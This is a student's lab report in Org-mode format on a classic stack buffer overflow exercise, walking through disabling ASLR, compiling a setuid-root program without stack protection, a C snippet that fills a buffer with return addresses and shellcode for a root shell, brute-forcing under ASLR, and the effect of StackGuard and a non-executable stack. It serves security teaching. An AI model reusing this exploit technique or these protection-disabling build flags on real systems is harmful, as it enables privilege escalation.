 #+OPTIONS: toc:t num:t
#+TITLE: LAB 5 - REPORT
#+AUTHOR: Justin Kaipada - 100590167
#+LATEX_CLASS: article
#+LATEX_CLASS_OPTIONS: [11pt,letterpaper]
#+LATEX_HEADER: \usepackage[letterpaper,margin=1in]{geometry}
#+LATEX_HEADER: \usepackage{plex-mono}
#+LATEX_HEADER: \usepackage[sfdefault]{plex-sans}
#+LATEX_HEADER: \linespread{1.5} % Change line spacing
#+LATEX_HEADER: \usepackage{xcolor}
#+LATEX_HEADER: \usepackage{soul}
#+LATEX_HEADER: \usepackage{helvet}
#+LATEX_HEADER: \usepackage{listings}
#+LATEX_HEADER: \setlength{\parindent}{0pt} % Change the paragraphs indent to 0, disabling it
#+LATEX_HEADER: \renewcommand\thesection{} % number the headers for toc but hide them
#+LATEX_HEADER: \usepackage{xcolor-solarized}
#+LATEX_HEADER: \definecolor{foreground}{RGB}{184, 83, 83} % For verbatim
#+LATEX_HEADER: \definecolor{background}{RGB}{255, 231, 231} % For verbatim
#+LATEX_HEADER: \let\OldTexttt\texttt
#+LATEX_HEADER: \renewcommand{\texttt}[1]{\OldTexttt{\footnotesize\colorbox{background}{\textcolor{foreground}{#1}}}}
#+LATEX_HEADER: \newenvironment{helvetica}{\fontfamily{phv}\selectfont}{\par}
#+LATEX_HEADER: \usepackage{hyperref} % Make the hyper-links prettier
#+LATEX_HEADER: \hypersetup{
#+LATEX_HEADER: colorlinks=true,
#+LATEX_HEADER: linkcolor=blue!70!white,
#+LATEX_HEADER: urlcolor=blue!95!black
#+LATEX_HEADER: }
#+LATEX_HEADER: \usepackage{enumitem}
#+LATEX_HEADER: \setlist[1]{itemsep=5pt}
#+LATEX_HEADER: \lstset{
#+LATEX_HEADER:  backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}; should come as last argument
#+LATEX_HEADER:  basicstyle=\scriptsize,          % the size of the fonts that are used for the code
#+LATEX_HEADER:  breakatwhitespace=false,         % sets if automatic breaks should only happen at whitespace
#+LATEX_HEADER:  breaklines=true,                 % sets automatic line breaking
#+LATEX_HEADER:  captionpos=b,                    % sets the caption-position to bottom
#+LATEX_HEADER:  extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
#+LATEX_HEADER:  firstnumber=1000,                % start line enumeration with line 1000
#+LATEX_HEADER:  frame=single,                    % adds a frame around the code
#+LATEX_HEADER:  keepspaces=true,                 % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
#+LATEX_HEADER:  keywordstyle=\color{blue},       % keyword style
#+LATEX_HEADER:  language=bash,                   % the language of the code
#+LATEX_HEADER:  morekeywords={ls,ping},          % if you want to add more keywords to the set
#+LATEX_HEADER:  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
#+LATEX_HEADER:  numbersep=5pt,                   % how far the line-numbers are from the code
#+LATEX_HEADER:  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
#+LATEX_HEADER:  rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
#+LATEX_HEADER:  showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
#+LATEX_HEADER:  showstringspaces=false,          % underline spaces within strings only
#+LATEX_HEADER:  showtabs=false,                  % show tabs within strings adding particular underscores
#+LATEX_HEADER:  stepnumber=2,                    % the step between two line-numbers. If it's 1, each line will be numbered
#+LATEX_HEADER:  stringstyle=\color{black},     % string literal style
#+LATEX_HEADER:  tabsize=2,                       % sets default tabsize to 2 spaces
#+LATEX_HEADER:  title=\lstname                   % show the filename of files included with \lstinputlisting; also try caption instead of title
#+LATEX_HEADER: }

#+LATEX_HEADER: \lstset{
#+LATEX_HEADER:  backgroundcolor=\color{white},   % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}; should come as last argument
#+LATEX_HEADER:  basicstyle=\scriptsize,          % the size of the fonts that are used for the code
#+LATEX_HEADER:  breakatwhitespace=false,         % sets if automatic breaks should only happen at whitespace
#+LATEX_HEADER:  breaklines=true,                 % sets automatic line breaking
#+LATEX_HEADER:  captionpos=b,                    % sets the caption-position to bottom
#+LATEX_HEADER:  extendedchars=true,              % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
#+LATEX_HEADER:  firstnumber=1000,                % start line enumeration with line 1000
#+LATEX_HEADER:  frame=single,                    % adds a frame around the code
#+LATEX_HEADER:  keepspaces=true,                 % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
#+LATEX_HEADER:  keywordstyle=\color{blue},       % keyword style
#+LATEX_HEADER:  language=c,                      % the language of the code
#+LATEX_HEADER:  morekeywords={ls,ping},          % if you want to add more keywords to the set
#+LATEX_HEADER:  numbers=left,                    % where to put the line-numbers; possible values are (none, left, right)
#+LATEX_HEADER:  numbersep=5pt,                   % how far the line-numbers are from the code
#+LATEX_HEADER:  numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
#+LATEX_HEADER:  rulecolor=\color{black},         % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
#+LATEX_HEADER:  showspaces=false,                % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
#+LATEX_HEADER:  showstringspaces=false,          % underline spaces within strings only
#+LATEX_HEADER:  showtabs=false,                  % show tabs within strings adding particular underscores
#+LATEX_HEADER:  stepnumber=2,                    % the step between two line-numbers. If it's 1, each line will be numbered
#+LATEX_HEADER:  stringstyle=\color{black},     % string literal style
#+LATEX_HEADER:  tabsize=2,                       % sets default tabsize to 2 spaces
#+LATEX_HEADER:  title=\lstname                   % show the filename of files included with \lstinputlisting; also try caption instead of title
#+LATEX_HEADER: }

#+begin_export latex
\newpage % Go to the next page after title page
#+end_export

* Lab setup

For the lab setup made sure to turn off the address space randomization
#+begin_src bash
sudo sysctl -w kernel.randomize_va_space=0
#+end_src

Compiled the shell code with the =execstack= option like so. Files used are the files attached on
blackboard
#+begin_src bash
gcc -z execstack -o call_shellcode call_shellcode.c
#+end_src

#+attr_latex: :width 440px
[[./img/shellcode_compile.png]]

Compiled the vulnerable program as root with =execstack= and also turned of GCCs stack protector
option with =no-stack-protector=.
#+begin_src bash
sudo gcc -o stack -z execstack -fno-stack-protector stack.c
sudo chmod 4755 stack
#+end_src

#+attr_latex: :width 440px
[[./img/stack_cmopile.png]]

#+begin_export latex
\newpage % Go to the next page after title page
#+end_export

* Task 1: Exploiting the Vulnerability

After modifying the exploit.c file compile it and run the vulnerability like this
#+begin_src bash
gcc -o exploit exploit.c
./exploit
./stack
# we should root access shell right now
#+end_src

Look at the code file attached for more comments, essentially what we are doing is overflowing the
stack pointer and then making the program to execute our code which runs the root shell right after.
#+begin_src c
    /* You need to fill the buffer with appropriate contents here */
    int max_num     = sizeof(buffer) - (sizeof(shellcode) + 1);
    ptr             = buffer;
    address_pointer = (long*)(ptr);
    /* could be any number greater, we just want overflow */
    return_address  = get_stack_pointer() + 500;
    // overflow stack pointer with 30 instructions
    for (i = 0; i < 30; i++) {
        *(address_pointer++) = return_address;
    }
    for (i = 0; i < sizeof(shellcode); i++) {
        buffer[max_num + i] = shellcode[i];
    }
    buffer[sizeof(buffer) - 1] = '\0';
#+end_src

*Result*
#+attr_latex: :width 440px
[[./img/stack_execute.png]]

* Task 2: Address Randomization

Turn on address randomization like this
#+begin_src sh
sudo /sbin/sysctl -w kernel.randomize_va_space=2
#+end_src

If we try to run the exploit again after turning on Address randomization it will fail saying
segmentation fault
#+attr_latex: :width 440px
[[./img/random_run.png]]

We can try running the program in a loop as follows
#+begin_src sh
sh -c "while [ 1 ]; do ./stack; done;"
#+end_src

Even after waiting for many executions we can see that the probability getting the correct address
to break the security is really low, so the malicious code fails to do its job again and again

#+attr_latex: :width 440px
[[./img/task_2.png]]

Keep on running for a long time will break the chain however to give us access to the root prompt
#+attr_latex: :width 440px
[[./img/task_2_dumped_at_last.png]]

* Task 3: Stack Guard

For this task we turn off the address space randomization again like this
#+begin_src bash
sudo sysctl -w kernel.randomize_va_space=0
#+end_src

Then we compile the stack program again this time without stack protector option and then set the correct permissions on the executable again
#+begin_src bash
sudo gcc -o stack -z execstack stack.c
sudo chmod 4755 stack
./stack
#+end_src

Immediately upon execution the system detects the stack smashing attempt, stops and prints out the
debug info such as memory map and stack trace of the program.

#+attr_latex: :width 440px
[[./img/task_3.png]]

* Task 4: Non-executable Stack

For this task after making sure the address randomization is off we recompile the stack program with
=noexecstack= option. We can recompile like this
#+begin_src bash
gcc -o stack -fno-stack-protector -z noexecstack stack.c
sudo chmod 4755 stack
./stack				# execute
#+end_src

#+attr_latex: :width 440px
[[./img/task_4.png]]

As you can see the program was halted immediately and exits with a segmentation fault!. This is
because the =noexecstack= stops any shell code placed on the stack to be executed, but since the
system can't handle the overflow it will still kill the program hence the segmentation fault.

* References

- http://www.cs.wright.edu/people/faculty/tkprasad/courses/cs781/alephOne.html
- http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf
- https://www.informit.com/articles/article.aspx?p=430402&seqNum=5
